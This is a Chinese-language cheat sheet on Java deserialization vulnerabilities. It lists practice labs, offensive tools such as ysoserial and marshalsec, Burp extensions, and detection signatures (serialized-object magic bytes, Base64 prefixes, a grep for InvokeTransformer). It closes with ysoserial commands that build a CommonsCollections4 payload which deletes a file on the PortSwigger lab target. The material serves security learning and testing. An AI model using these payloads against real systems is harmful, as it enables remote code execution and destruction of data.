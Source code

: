 # Java反序列化漏洞

## 靶机

[PortSwigger](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons)

[java deserialize webapp](https://github.com/hvqzao/java-deserialize-webapp)

## 工具

[ysoserial](https://github.com/frohoff/ysoserial)

[ysoserial modified](https://github.com/pimps/ysoserial-modified)

[JRE8u20 RCE Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget)

[jexboss](https://github.com/joaomatosf/jexboss)

[SerialBrute](https://github.com/NickstaDB/SerialBrute)

[SerializationDumper](https://github.com/NickstaDB/SerializationDumper)

[gadgetprobe](https://labs.bishopfox.com/gadgetprobe)

[marshalsec](https://github.com/mbechler/marshalsec)


## 检测

1.白盒

在代码中查找实现 Serialized 接口的类和java.io.ObjectInputStream、readObject、readUnshare 函数的使用

```bash
find . -iname "*commons*collection*"
grep -R InvokeTransformer .
```

2.黑盒

对于黑盒测试，查找表示 java 序列化对象（源自 ObjectInputStream）的特定签名或Magic Bytes：

+ 十六进制模式：AC ED 00 05
+ Base64 模式：rO0
+ Content-type 设置为 application/x-java-serialized-object 的 HTTP 响应标头
+ 指示先前压缩的十六进制模式：1F 8B 08 00
+ 表示先前压缩的 Base64 模式：H4sIA
+ 具有 .faces 扩展名和 faces.ViewState 参数的 Web 文件
```
javax.faces.ViewState=rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwdAAML2xvZ2luLnhodG1s
```

Burp扩展利用工具

[Java Serial Killer](https://github.com/NetSPI/JavaSerialKiller)

[Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner)

[burp ysoserial](https://github.com/summitt/burp-ysoserial)

[SuperSerial](https://github.com/DirectDefense/SuperSerial)

[SuperSerial Active](https://github.com/DirectDefense/SuperSerial-Active)

## 简单漏洞利用

Apache Commons Collections
```bash
Java16及更高版本
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   CommonsCollections4 'rm /home/carlos/morale.txt' | base64

java15及以下：
java -jar ysoserial-all.jar CommonsCollections4 "rm /home/carlos/morole.txt" | base64
```

